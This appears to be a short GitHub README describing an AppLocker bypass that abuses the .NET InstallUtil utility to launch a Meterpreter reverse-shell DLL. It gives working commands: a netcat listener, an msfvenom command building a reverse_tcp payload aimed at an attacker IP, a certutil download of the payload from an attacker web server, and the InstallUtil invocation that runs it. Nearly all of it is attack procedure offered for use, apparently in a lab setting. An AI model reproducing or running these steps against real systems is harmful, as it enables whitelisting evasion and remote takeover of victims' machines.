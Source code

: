 # Reverse Shell AppLocker Bypass with Meterpreter DLL
A .NET installation utility used for registering .NET assemblies can be used and reference the RunInstaller component to trigger the malicious payload that is not found in the 'main' call. 

Compile the csharp binary in Visual Studio and transfer to victim host with certutil. 


## Requirements: 
Invoke-ReflectivePEInjection.ps1 file hosted on attacker webserver (default port 80)

```bash
# setup netcat listener
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 8080

# Create the meterpreter DLL (met.dll) and host it in http web directory 
┌──(kali㉿kali)-[~/httpDirectory]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.227 LPORT=8080 EXITFUNC=thread -f dll > met.dll

# Download file via certutil -urlcache -f http://ip/CLMBypass-dll.exe dll.exe
PS > C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U dll.exe
```

